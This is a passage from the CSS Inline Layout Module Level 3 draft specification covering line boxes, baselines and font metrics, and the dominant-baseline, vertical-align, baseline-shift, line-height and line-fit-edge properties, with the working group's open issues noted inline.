> **Issue:** Many aspects of layout here depend on font metrics. While the relevant metrics exist in OpenType for Latin/Cyrillic/Greek and for CJK, they are missing for many other writing systems. For example, the visual top metric for Hebrew has no metric in the OpenType tables. For this module to work well for the world, we need fonts to provide the relevant metrics for all writing systems, and that means both that OpenType needs to allow such metrics and font designers need to provide accurate numbers. See [issue](https://github.com/w3c/csswg-drafts/issues/5244) and [liaison statement](https://lists.w3.org/Archives/Public/www-archive/2020Feb/att-0005/CSS-SC29-20200113.pdf).

#### 1.1.  Module Interactions {#css-inline-3:placement}

This module replaces and extends the CSS inline layout model and features defined in [CSS2] section 10.8.

#### 1.2.  Value Definitions {#css-inline-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Inline Layout Model {#css-inline-3:model}

In **inline layout**, a mixed, recursive stream of text and inline-level boxes forming an **inline formatting context** within a block container are laid out by fragmenting them into a stack of line boxes. Within each line box, inline-level boxes are [aligned to each other](#css-inline-3:alignment) along the block axis, typically by the baselines of their text.

Any block container that directly contains inline-level content—​such as inline boxes, atomic inlines, and text sequences—​establishes an inline formatting context to lay out its contents using inline layout. The block container’s content edges form the containing block for each of the inline-level boxes participating in its inline formatting context.

The block container also generates a **root inline box**, which is an anonymous inline box that holds all of its inline-level contents. (Thus, all text in an inline formatting context is directly contained by an inline box, whether the root inline box or one of its descendants.) The root inline box inherits from its parent block container, but is otherwise unstyleable.

In an inline formatting context, content is laid out along the inline axis, ordered according to the [Unicode bidirectional algorithm and its controls](#css-writing-modes-4:text-direction) [CSS-WRITING-MODES-3] and distributed according to the typesetting controls in [CSS-TEXT-3]. Inline-axis margins, borders, and padding are respected between inline-level boxes (and their margins do not [collapse](#css2:collapsing-margins)). The resulting rectangular area that contains the boxes that form a single line of inline-level content is called a **line box**.

> **Note:** Line boxes and inline boxes and inline-level boxes are each different things! See [CSS-DISPLAY-3] for an in-depth discussion of box types and related terminology.

#### 2.1.  Layout of Line Boxes {#css-inline-3:line-boxes}

Line boxes are created as needed to hold inline-level content within an inline formatting context. When an inline box exceeds the logical width of a line box, or contains a forced line break, it is split (see [CSS Text 3 § 5 Line Breaking and Word Boundaries](#css-text-4:line-breaking)) into several fragments [CSS-BREAK-3], which are partitioned across multiple line boxes. Like column boxes in multi-column layout [CSS-MULTICOL-1], line boxes are fragmentation containers generated by their formatting context, and are not part of the CSS box tree.

> **Note:** Inline boxes can also be [split into several fragments within the same line box due to bidirectional text processing](#css-writing-modes-4:bidi-box-model). See [CSS-WRITING-MODES-3].

Line boxes are stacked as the direct contents of the block container box in its block flow direction and aligned within this container as specified by `align-content` [CSS-ALIGN-3]. Thus, an inline formatting context consists of a stack of line boxes. Line boxes are stacked with no separation (except as specified elsewhere, e.g. for float [clearance](#css2:clearance)) and they never overlap.

In general, the line-left edge of a line box touches the line-left edge of its containing block and the line-right edge touches the line-right edge of its containing block, and thus the logical width of a line box is equal to the inner logical width of its containing block (i.e. the block container’s content box). However, floating boxes or initial letter boxes can come between the containing block edge and the line box edge, reducing the space available to, and thus the logical width of, any such impacted line boxes. (See [CSS 2 § 9.4.2 Inline formatting contexts](#css2:inline-formatting)/[CSS 2 § 9.5 Floats](#css2:floats) and [§ 7 Initial Letters](#css-inline-3:initial-letter-styling).)

The logical height of a line box is fitted to its contents once they have been [block-axis aligned](#css-inline-3:alignment). This fit is controlled by `line-height` and `line-fit-edge`. The first/last line boxes in a block container may additionally be trimmed by `text-box-trim`.


Inline Layout Box Model

#### 2.2.  Layout Within Line Boxes {#css-inline-3:line-layout}

As described [above](#css-inline-3:model), user agents flow inline-level boxes into a stack of line boxes. Layout within each line box is performed, sizing and positioning each box fragment and line box independently, as follows:

1. **Baseline Alignment:** All in-flow inline-level boxes in the line box are aligned to each other in the block axis according to `dominant-baseline` and `vertical-align`. This is referred to as [baseline alignment](#css-inline-3:alignment). Those with line-relative values for `baseline-shift` are assumed to be aligned so as to minimize the line box height.
2. **Content Size Contribution Calculation:** The layout bounds (i.e. the size contributions) of each inline-level box in the line box are calculated:

  - For atomic inlines such as replaced elements and inline blocks: this is their margin box.
  - For the root inline box, and for inline boxes with `line-fit-edge: leading`: this derived from their used `line-height`, ignoring any margin/border/padding; see [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height).
  - For other inline boxes: this is derived from their `line-fit-edge` metrics, and includes any margin/border/padding; see [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height).
3. **Line Box Sizing:** The line box’s logical height is sized to exactly include the aligned layout bounds of all its inline-level boxes.
4. **Content Positioning:** The root inline box’s aligned subtree and boxes line-relative values for `baseline-shift` are positioned within the line box.

   > **Issue:** Define what to do for top/bottom/center aligned boxes that are taller than the rest of the content.

> **Note:** Empty inline boxes still have margins, padding, borders, and a `line-height`, and thus influence these calculations just like boxes with content.

#### 2.3.  Phantom Line Boxes {#css-inline-3:invisible-line-boxes}

Line boxes that contain no text, no preserved white space, no inline boxes with non-zero inline-axis margins, padding, or borders, and no other in-flow content (such as atomic inlines or ruby annotations), and do not end with a forced line break are **phantom line boxes**. Such boxes must be treated as zero-height line boxes for the purposes of determining the positions of any descendant content (such as absolutely positioned boxes), and both the line box and its in-flow content must be treated as not existing for any other layout or rendering purpose.

> **Note:** What’s invisible?
>
> Such phantom line boxes, which can still contain unstyled empty inline boxes, out-of-flow boxes, and/or collapsed document white space, are ignored, for example, for:
>
> - [margin collapsing](#css2:collapsing-margins)
> - finding the first formatted line
> - applying `text-box-trim`
> - [fragmentation break propagation](#css-break-4:break-propagation)
> - etc.

> **Issue:** Firefox allows the inline boxes within a phantom line box to accept `outline`,which allows it to make focus rings visible. As in other browsers, all other properties that could make the element visible (e.g. `box-shadow`) seem to be ignored.

#### 2.4.  Painting Order {#css-inline-3:paint-order}

Except as specified for positioned boxes (see [CSS-POSITION-3]) inline-level boxes are painted in document order; the `z-index` property does not generally apply.

### 3.  Baselines and Alignment Metrics {#css-inline-3:css-metrics}

#### 3.1.  Introduction to Baselines {#css-inline-3:baseline-intro}

A **baseline** is a line along the inline axis of a line box along which individual glyphs of text are aligned. Baselines guide the design of glyphs in a font (for example, the bottom of most alphabetic glyphs typically align with the alphabetic baseline), and they guide the alignment of glyphs from different fonts or font sizes when typesetting.


Alphabetic text in two font sizes with the baseline and em-boxes

Different writing systems prefer different baselines.


Preferred baselines in various writing systems

A well-constructed font contains a **baseline table**, which indicates the position of one or more baselines within the font’s design coordinate space. (The design coordinate space is scaled with the font size.)


In a well-designed mixed-script font, the glyphs are positioned in the coordinate space to harmonize with one another when typeset together. The baseline table is then constructed to match the shape of the glyphs, each baseline positioned to match the glyphs from its preferred scripts.

The baseline table is a property of the font, and the positions of the various baselines apply to all glyphs in the font.

Different baseline tables can be provided for alignment in horizontal and vertical text. UAs should use the vertical tables in vertical typographic modes and the horizontal tables otherwise.

> **Note:** Fonts can have more than one baseline table in each axis; the UA is responsible for choosing the appropriate table in consideration of `font-language-override` and the content language.

#### 3.2.  Baselines and Metrics {#css-inline-3:baseline-types}

CSS uses the following text-based metrics as baselines for inline layout functions such as alignment, box sizing, and initial letter layout.

> **Issue:** The CSSWG would like to know which baseline values are necessary for each property that uses them (`dominant-baseline`, `alignment-baseline`, `text-box-edge`, `line-fit-edge`, `initial-letter-align`): if any can be dropped, or any need to be added. See [Issue 859](https://github.com/w3c/csswg-drafts/issues/859).

****alphabetic****

: Used in writing Latin, Cyrillic, Greek, and many other scripts, corresponds to the bottom of most, but not all, their characters, (such as “m”, “Ш”, “Δ”). Often represented as zero in font design coordinate systems; assigned to `romn` in OpenType and to `bsln` value zero in TrueType AAT.

****cap-height****

: Corresponds to the top of capital letters (such as “T”, “Б”, “Σ”) in Latin, Cyrillic, Greek, etc. Calculated using `sCapHeight` in OpenType.

****x-height****

: Corresponds to the top of short lowercase letters (such as “m”, “л”, “α”) in Latin, Cyrillic, Greek, etc. Calculated using `sxHeight` in OpenType.

****x-middle****

: Corresponds to halfway between the alphabetic and x-height baselines.

****ideographic-over****

: Corresponds to the line-over design edge of CJK (Han/Hangul/Kana) text. Assigned to `idtp` in OpenType.

****ideographic-under****

: Corresponds to the line-under design edge of CJK (Han/Hangul/Kana) text. Assigned to `ideo` in OpenType.

****central****

: Corresponds to the ideographic central baseline, halfway between the ideographic-under and ideographic-over baselines. Assigned to `bsln` value 1 in TrueType AAT.

****ideographic-ink-over****

: Corresponds to the line-over ink edge of CJK (Han/Hangul/Kana) text. Assigned to `icft` in OpenType.

****ideographic-ink-under****

: Corresponds to the line-under ink edge of CJK (Han/Hangul/Kana) text. Assigned `icfb` in OpenType.

****hanging****

: Corresponds to hanging baseline from which characters in Tibetan and similar unicameral scripts with a strong but not absolute top edge seem to “hang”. Assigned to `hang` in OpenType and to `bsln` value 3 in TrueType AAT.

****math****

: Corresponds to center baseline around which mathematical characters are designed. Assigned to `math` in OpenType and `bsln` value 4 in TrueType AAT.

****text-over****

: Corresponds to the metric used as the line-over edge of an inline’s content box per [CSS2].

****text-under****

: Corresponds to the metric used as the line-under edge of an inline’s content box per [CSS2].

****em-over****

: Corresponds to a conceptual ascent normalized to ensure 1em between em-over and em-under. See [A.1: Calculating Em-over and Em-under](#css-inline-3:baseline-synthesis-em).

****em-under****

: Corresponds to a conceptual descent normalized to ensure 1em between em-over and em-under. See [A.1: Calculating Em-over and Em-under](#css-inline-3:baseline-synthesis-em).

> **Note:** These metrics are optical design metrics, and therefore do not necessarily correspond exactly to actual glyph outlines.

In general, these metrics are taken from the appropriate font, but if they are missing or need to be derived from a box rather than text, they must be synthesized, see [§ 3.3 Baselines of Glyphs and Boxes](#css-inline-3:baseline-tables) and [Appendix A: Synthesizing Alignment Metrics](#css-inline-3:baseline-synthesis).

##### 3.2.1.  Ascent and Descent Metrics {#css-inline-3:ascent-descent}

CSS assumes that every font has font metrics that specify a characteristic height above the baseline—​called the **ascent metric**—​and a characteristic depth below it—​called the **descent metric**—​which CSS uses for laying out text and boxes in an inline formatting context. Note that these are metrics of the font as a whole and need not correspond to the ascender and descender of any individual glyph.

> **Note:** It is recommended that implementations that use OpenType or TrueType fonts use the metrics `sTypoAscender` and `sTypoDescender` from the font’s OS/2 table (after scaling to the current element’s font size) to find the ascent metric and descent metric for CSS layout. In the absence of these metrics, the "Ascent" and "Descent" metrics from the HHEA table should be used.

##### 3.2.2.  Line Gap Metrics {#css-inline-3:font-line-gap}

Font formats can allow for a font-recommended “line gap” or “external leading” metric. This metric is referred to as the **line gap metric**, and may be incorporated into the line box logical height calculations when `line-height` is `normal` as described in [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height).

> **Note:** In OpenType, the line gap metric can be found as `sTypoLineGap` or `hhea.lineGap`.

UAs must floor the line gap metric at zero.

#### 3.3.  Baselines of Glyphs and Boxes {#css-inline-3:baseline-tables}

Each font, glyph, and inline-level box is assumed to have a baseline coordinate for each baseline type indicating that baseline’s position on its block axis. The set of such baselines is called its **baseline set**. The baseline from this set that is used to align the box or glyph within its alignment context is called its alignment baseline; the baseline used to align its content within itself is called its dominant baseline.

For an individual glyph, the baseline set derives from the font’s baseline table. For an inline box, it derives from its first available font regardless of whether the box actually contains any glyphs from that font. If the requisite metrics are missing from a font, the UA must synthesize them, see [A.2: Synthesizing Baselines (and Other Font Metrics) for Text](#css-inline-3:baseline-synthesis-fonts).

For other boxes, its baseline set is nominally derived from its contents in accordance with `baseline-source` and the rules of the formatting context in which it participates. For an atomic inline box with no baseline set in the inline formatting context’s inline axis its alignment baselines are synthesized from its margin box, see [A.3: Synthesizing Baselines for Atomic Inlines](#css-inline-3:baseline-synthesis-box).

### 4.  Baseline Alignment {#css-inline-3:alignment}

While most CSS formatting contexts position content by aligning boxes with respect to their container’s edges, inline layout positions boxes in the block axis by aligning them with respect to each other using their baselines.

More specifically, (unless using a line-relative shift value) each glyph or inline-level box is aligned in the block axis by positioning its alignment baseline to match the *corresponding* baseline of its parent (which is its alignment context), and then is potentially shifted from that position according to its post-alignment shift.

> **Note:** Baseline alignment always matches corresponding baselines: alphabetic to alphabetic, hanging to hanging, mathematical to mathematical, etc.

When aligning a box, the alignment baseline is chosen according to its `alignment-baseline` and `baseline-source` values (see shorthand `vertical-align`), and defaults to matching the parent’s `dominant-baseline`. For a glyph, the alignment baseline is always determined by the parent’s dominant baseline.

> **Example:** Given following sample markup:
>
> ```
> <p><span class="outer">Ap <span class="inner">ਜੀ</span></span></p>
> ```
>
> And the following style rule:
>
> ```
> .inner { font-size: 75%; }
> ```
>
> The baseline sets of the parent (`.outer`) and the child (`.inner`) will not match up due to the font size difference. The child box is aligned to its parent by matching up their alphabetic baselines.
>
> 
>
> The alphabetic baseline is used here because by default a box’s alignment baseline matches the dominant baseline of its parent, and in horizontal typographic mode, the dominant baseline itself defaults to the alphabetic baseline.
>
> If we add `vertical-align: super` to the `.inner` element from the example above, the same rules are used to align the `.inner` child to its parent; but in addition to the baseline alignment, the child is shifted to the superscript position.
>
> 

#### 4.1.  Dominant Baselines: the `dominant-baseline` property {#css-inline-3:dominant-baseline-property}

| Field | Value |
| --- | --- |
| Name: | **dominant-baseline** |
| [Value:](#css-values-4:value-defs) | auto \| `<baseline-metric>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers, inline boxes, table rows, grid containers, flex containers, and SVG text content elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the **dominant baseline**, which is the default baseline type used to align content within the box.

For inline boxes, the dominant baseline is used to align the box’s text (and, unless otherwise specified by `vertical-align`, any inline-level child boxes) by aligning each glyph/box’s corresponding baseline to the box’s own dominant baseline. For other boxes, it indicates the default alignment baseline of any boxes participating in baseline alignment in the box’s alignment context; see (`alignment-baseline: baseline` and [CSS-ALIGN-3]).

The **`<baseline-metric>`** value, which identifies specific baseline metrics, expands to

```css
<baseline-metric> = text-bottom | alphabetic | ideographic | middle
                    | central | mathematical | hanging | text-top
```

Values have the following meanings:

****auto****

: Equivalent to `alphabetic` in horizontal writing modes and in vertical writing modes when `text-orientation` is `sideways`. Equivalent to `central` in vertical writing modes when `text-orientation` is `mixed` or `upright`.

  However, in SVG text, the origin point of glyphs (used for coordinate-based glyph positioning) is always handled as for `central` in vertical writing modes.

****text-bottom****

: Use the text-under baselines.

****alphabetic****

: Use the alphabetic baselines.

****ideographic****

: Use the ideographic-under baselines.

****middle****

: Use the x-middle baselines; except under `text-orientation: upright` (where the alphabetic and x-height baselines are essentially meaningless) use the central baseline.

****central****

: Use the central baselines.

****mathematical****

: Use the math baselines.

****hanging****

: Use the hanging baselines.

****text-top****

: Use the text-over baselines.

See [CSS-WRITING-MODES-3] for an introduction to dominant baselines.

> **Issue:** Define behavior for mixed vertical orientations that isn’t nonsensical when specified baseline isn’t `central`.

#### 4.2.  Transverse Box Alignment: the `vertical-align` property {#css-inline-3:transverse-alignment}

| Field | Value |
| --- | --- |
| Name: | **vertical-align** |
| [Value:](#css-values-4:value-defs) | [ first \| last] \|\| `<'alignment-baseline'>` \|\| `<'baseline-shift'>` |
| [Initial:](#css-cascade-6:initial-values) | baseline |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property specifies how an inline-level box is aligned within the line by specifying its alignment baseline type (`alignment-baseline`), baseline alignment preference (`baseline-source`), and post-alignment shift (`baseline-shift`) in a single declaration.

If `first` or `last` is specified, it sets `baseline-source` (which is otherwise reset to `auto`). Other values are as for the corresponding longhand properties, see below.

> **Advisement:** Authors should use this shorthand (`vertical-align`) instead of its longhands, unless specifically needing to cascade its longhands independently or (on SVG elements) to support legacy SVG implementations.

> **Note:** `vertical-align` can also affect the alignment of table cells when `align-content` is `normal`. Specifically, `top` (`baseline-shift: top`) maps it to `start`, `bottom` (`baseline-shift: bottom`) to `end`, and otherwise `middle` (`alignment-baseline: middle`) to `center`. See [CSS Box Alignment 3 § 5.1.1 Block Containers (Including Table Cells)](#css-align-3:distribution-block).

##### 4.2.1.  Alignment Baseline Source: the `baseline-source` longhand {#css-inline-3:baseline-source}

| Field | Value |
| --- | --- |
| Name: | **baseline-source** |
| [Value:](#css-values-4:value-defs) | auto \| first \| last |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | inline-level boxes that establish an independent formatting context |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When an inline-level box has more than one possible source for baseline information (such as for a multi-line inline block or inline flex container) this property specifies whether the first baseline set or last baseline set is preferred for alignment, indicating the box’s **baseline alignment preference**. Values have the following meanings:

****auto****

: Specifies last-baseline alignment for `inline-block`, first-baseline alignment for everything else.

****first****

: Specifies first-baseline alignment.

****last****

: Specifies last-baseline alignment.

See [CSS Box Alignment 3 § 9.1 Determining the Baselines of a Box](#css-align-3:baseline-export) for how to find the baselines of boxes other than inline boxes.

##### 4.2.2.  Alignment Baseline Type: the `alignment-baseline` longhand {#css-inline-3:alignment-baseline-property}

| Field | Value |
| --- | --- |
| Name: | **alignment-baseline** |
| [Value:](#css-values-4:value-defs) | baseline \| `<baseline-metric>` |
| [Initial:](#css-cascade-6:initial-values) | baseline |
| [Applies to:](#css-cascade-5:applies-to) | inline-level boxes, flex items, grid items, table cells, and SVG text content elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the box’s **alignment baseline**: the baseline used to align the box prior to applying its post-alignment shift (if applicable). Values have the same meanings as for `dominant-baseline`; the **baseline** keyword uses the dominant baseline choice of the parent.

When performing baseline alignment, these values specify which baseline of the box is aligned to the corresponding baseline of its alignment context. (In an inline formatting context, inline-level box fragments and glyphs share an alignment context established by their parent inline box fragment along its inline axis. For other formatting contexts, see [CSS Box Alignment 3 § 9.2 Baseline Alignment Grouping](#css-align-3:baseline-terms).) In SVG text layout, these values instead specify the baseline that is aligned to the SVG current text position.

###### 4.2.2.1.  Legacy Values for SVG {#css-inline-3:alignment-baseline-svg-legacy}

SVG implementations *may* support the following aliases in order to support legacy content:

- **text-before-edge** aliasing `text-top`
- **text-after-edge** aliasing `text-bottom`

These values are not allowed in the `vertical-align` shorthand.

##### 4.2.3.  Post-Alignment Shift: the `baseline-shift` longhand {#css-inline-3:baseline-shift-property}

| Field | Value |
| --- | --- |
| Name: | **baseline-shift** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` \| sub \| super \| top \| center \| bottom |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | inline-level boxes and SVG text content elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the used value of `line-height` |
| [Computed value:](#css-cascade-6:computed) | the specified keyword or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the box’s **post-alignment shift**. The **baseline-relative shift values** `<length-percentage>`, `sub`, `super` shift the box relative to its baseline-aligned position, whereas the **line-relative shift values** `top`, `center`, and `bottom` shift the inline box and its contents relative to the bounds of its line box.

> **Advisement:** Authors should use the `vertical-align` shorthand, which has existed since CSS1, instead of this `baseline-shift` longhand (except in SVG content, where conversely `baseline-shift` is more widely-supported in legacy user agents).

Values have the following meanings:

****`<length>`****

: Raise (positive value) or lower (negative value) by the specified length.

****`<percentage>`****

: Raise (positive value) or lower (negative value) by the specified percentage of the `line-height`.

****sub****

: Lower by the offset appropriate for subscripts of the parent’s box. The UA may use the parent’s font metrics to find this offset; otherwise it defaults to dropping by one fifth of the parent’s used `font-size`.

****super****

: Raise by the offset appropriate for superscripts of the parent’s box. The UA may use the parent’s font metrics to find this offset; otherwise it defaults to raising by one third of the parent’s used `font-size`.

****top****

: Align the line-over edge of the aligned subtree with the line-over edge of the line box.

****center****

: Align the center of the aligned subtree with the center of the line box.

****bottom****

: Align the line-under edge of the aligned subtree with the line-under edge of the line box.

The **aligned subtree** of an inline box contains the layout bounds of that box and the aligned subtrees of all child inline boxes whose computed `alignment-baseline` value is not itself a line-relative shift value. The line-over edge of the aligned subtree is the highest over edge of the layout bounds in the subtree, and the line-under edge is analogously the lowest.

> **Issue:** The line-relative shift values don’t fit perfectly in the dichotomy between `alignment-baseline` and `baseline-shift`. There’s [decent](https://github.com/w3c/csswg-drafts/issues/5180) [arguments](https://github.com/w3c/csswg-drafts/issues/5234) for either option. They’re currently drafted here, but if there’s a strong argument to move them, please file an issue for consideration.

###### 4.2.3.1.  Legacy Values for SVG {#css-inline-3:baseline-shift-svg-legacy}

User agents *may* additionally support the keyword **baseline** as computing to `0` if is necessary for them to support legacy SVG content. This value is not allowed in the `vertical-align` shorthand.

> **Issue:** We would prefer to remove the `baseline` value, and are looking for feedback from SVG user agents as to whether it’s necessary.

### 5.  Logical Heights and Inter-line Spacing {#css-inline-3:line-height}

The block-axis sizing of a line box depends on the sizes and [alignment](#css-inline-3:alignment) of its inline-level contents. This sizing is controlled by the `line-height` and `line-fit-edge` properties.

#### 5.1.  Line Spacing: the `line-height` property {#css-inline-3:line-height-property}

| Field | Value |
| --- | --- |
| Name: | **line-height** |
| [Value:](#css-values-4:value-defs) | normal \| `<number [0,∞]>` \| `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | non-replaced inline boxes and SVG text content elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | computed relative to `1em` |
| [Computed value:](#css-cascade-6:computed) | the specified keyword, a number, or a computed `<length>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the box’s **preferred line height**, which is used in calculating its “layout bounds”, i.e. its contribution to the logical height of its line box. (See [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height).)

> **Note:** Because it applies to the root inline box when specified on a block container, `line-height` effectively establishes the minimum height of the block’s line boxes.

Values for this property have the following meanings:

****normal****

: Determine the preferred line height automatically based on the metrics of the used font.

****`<length [0,∞]>`****

: The specified length is used as the preferred line height. Negative values are illegal.

****`<number [0,∞]>`****

: The preferred line height is this number multiplied by the element’s used `font-size`. Negative values are illegal. The computed value is the same as the specified value.

****`<percentage [0,∞]>`****

: The preferred line height and computed value of the property is this percentage of the element’s computed `font-size`. Negative values are illegal.

> **Note:** Metrics from fonts other than the first available font only impact the layout bounds of an inline box with `line-height: normal`.

> **Example:** The three rules in the example below have the same used line height:
>
> ```
> div { line-height: 1.2; font-size: 10pt }     /* number */
> div { line-height: 1.2em; font-size: 10pt }   /* length */
> div { line-height: 120%; font-size: 10pt }    /* percentage */
> ```
>
> However, they inherit differently: the first one inherits as a number, which will lead to different line heights if descendants have different font sizes; the last two as inherit as absolute lengths, which will not be influenced by the font size on descendants.

> **Issue:** The fact that percentages compute to lengths is annoying. See also [Issue 3118](https://github.com/w3c/csswg-drafts/issues/3118) and [Issue 2165](https://github.com/w3c/csswg-drafts/issues/2165).

> **Note:** When `line-fit-edge` is `leading`, the margins, borders, and padding of inline boxes do not affect the line box’s height calculation. However, they are still rendered around these boxes. This means that if the size specified by `line-height` is less than the size of the box, backgrounds and borders can “bleed” into adjoining line boxes, potentially obscuring earlier content.

#### 5.2.  Text Edge Metrics: the `line-fit-edge` property {#css-inline-3:text-edges}

| Field | Value |
| --- | --- |
| Name: | **line-fit-edge** |
| [Value:](#css-values-4:value-defs) | leading \| `<text-edge>` |
| [Initial:](#css-cascade-6:initial-values) | leading |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** This is an early draft of a proposal, and might change significantly as design critiques and use cases are registered and various details and interactions with other properties are worked out. **Do not ship (yet).**

Inline boxes, whose primary purpose is to contain text, are sized in the block axis based on their font metrics. The `line-fit-edge` property controls which metrics are used. These chosen metrics are used as the basis for the layout bounds of the inline box (if it is not the root inline box); and also, by default, are the metrics used for `text-box-trim`.

The **`<text-edge>`** value, which identifies specific font metrics, expands to

```css
<text-edge> = [ text | ideographic | ideographic-ink ]
              | [ text | ideographic | ideographic-ink | cap | ex ]
                [ text | ideographic | ideographic-ink | alphabetic ]
```

The first value specifies the text over edge; the second value specifies the text under edge. If only one value is specified, both edges are assigned that same keyword if possible; else `text` is assumed as the missing value.

> **Issue:** Do we need longhands or is this shorthand enough? [[Issue #5236]](https://github.com/w3c/csswg-drafts/issues/5236)

Values have the following meanings:

****leading****

: Use the ascent/descent plus any positive half-leading. Margin/padding/border is ignored for the purpose of sizing the line box.

****text****

: Use the text-over baseline/text-under baseline as the over/under edge.

****cap****

: Use the cap-height baseline as the over edge.

****ex****

: Use the x-height baseline as the over edge.

****ideographic****

: Use the ideographic-over baseline/ideographic-under baseline as the over/under edge.

****ideographic-ink****

: Use the ideographic-ink-over baseline/ideographic-ink-under baseline as the over/under edge.

****alphabetic****

: Use the alphabetic baseline as the under edge.

> **Issue:** Is `text` a reasonable name for the ascent/descent metrics, or can we think of something better? Ditto `leading` as a keyword. [[Issue #8067]](https://github.com/w3c/csswg-drafts/issues/8067)

Unless `line-fit-edge` is `leading`—​in which case the box’s own `line-height` is used to add spacing—​the box’s margin, padding, and border also contribute to the layout bounds.

> **Note:** The `leading` and `text` values rely on the font ascent and descent to make sure the text fits. Other values are more likely to result in overlap or overflow caused by ascents above the specified metrics (such as for diacritics), so authors using these values need to be careful to provide sufficient spacing for the text, particularly in multi-lingual contexts.


The `line-fit-edge` property, showing values for `leading`, `cap`, and `ex`. The red lines indicate the layout bounds of the inline box.

> **Issue:** This illustration doesn’t match actual font metrics, it’s actually illustrating the cap-height, not the ascent. [[Issue #11364]](https://github.com/w3c/csswg-drafts/issues/11364)

> **Note:** When `line-fit-edge` is `leading`, vertical rhythm can be broken any time there is a change in font metrics or vertical alignment within a paragraph.
>
> Other values are more likely to give consistent line spacing—​as long as there is enough leading added that the half-leading on the root inline is large enough to accommodate the specified metrics of any descendants. The line box will still grow, however, to accommodate content that would otherwise overflow, to avoid overlap between lines.

> **Note:** Although only `leading` applies positive half-leading, in order to allow text to be set tightly, all values apply negative half-leading, see [§ 5.3 Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes](#css-inline-3:inline-height). Half-leading is applied equally to both sides of the text; for more precise overlap control authors can use `line-fit-edge: text` together with negative margins on the affected text.

#### 5.3.  Calculating the Logical Height Contributions (“Layout Bounds”) of Inline Boxes {#css-inline-3:inline-height}

The contribution of an inline box to the logical height of its line box, here referred to as its **layout bounds**, is always calculated with respect to its own text metrics, as described below, and is controlled by `line-fit-edge` and `line-height`. The sizes and positions of child boxes do not influence its layout bounds (nor its own logical height, for that matter, see `inline-sizing`).

> **Note:** The layout bounds need not correspond to the box’s edges.

To find the layout bounds of an inline box, the UA must first align all the glyphs *directly* contained in the inline box to each other by their dominant baselines. (See [§ 3.3 Baselines of Glyphs and Boxes](#css-inline-3:baseline-tables).) If the inline box contains no glyphs at all, or if it contains only glyphs from fallback fonts, it is considered to contain a “strut” (an invisible glyph of zero width) with the metrics of the box’s first available font.

For each glyph (including the “strut”), *A* represents its ascent above the baseline; *D* represents its descent below. Unless `line-fit-edge` specifies a different metric to use, *A* refers to the ascent metric (for the given font at its given size) and *D* to the descent metric, each adjusted to account for the dominant baseline’s offset from zero. If `line-height` computes to `normal` and either `line-fit-edge` is `leading` or this is the root inline box, the font’s line gap metric may also be incorporated into *A* and *D* by adding half to each side as half-leading.

**When its computed `line-height` is `normal`**, the layout bounds of an inline box encloses all its glyphs, going from the highest *A* to the deepest *D*. (Note that glyphs in a single box can come from different fonts and thus might not all have the same *A* and *D*.)

